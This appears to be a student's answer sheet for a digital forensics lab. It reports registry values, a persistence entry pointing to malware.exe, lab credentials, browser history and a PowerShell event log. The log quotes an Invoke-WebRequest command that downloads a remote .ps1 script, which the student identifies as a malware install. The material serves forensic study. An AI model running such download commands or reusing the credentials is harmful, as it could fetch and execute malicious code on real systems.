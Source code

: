 21k-4760
Muhammad Musayiab

Question no 1:

Part a) Mouse double click speed : 500

Part b) url1Registry Last write: 2023-01-29 16:25:07
Value: url1 (RegSz)
Data: C:\Windows\System32\calc.exe

Part c) Registry file: Value: Malware (RegSz)
Data: C:\Users\w\Desktop\malware.exe
Slack: 00-00-78-00-65-00

Question no 2:

Part a) Username: hackerman
	   b) password: sup3rs3cur3p4ssw0rd
Part b) What’s the most frequently visited website? (amazon.com)
Part c) download :  pyhton downlooad.


Question no 3:

Part a) Log Name:      Microsoft-Windows-PowerShell/Operational
Source:        Microsoft-Windows-PowerShell
Date:          1/29/2023 10:55:04 PM
Event ID:      4104
Task Category: Execute a Remote Command
Level:         Verbose
Description:
Creating Scriptblock text (1 of 1):
Invoke-WebRequest -UseBasicParsing -Uri https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%202/files/file.ps1 -OutFile "file.ps1"

Part b) The purpose was to install malware remotely to the computer.


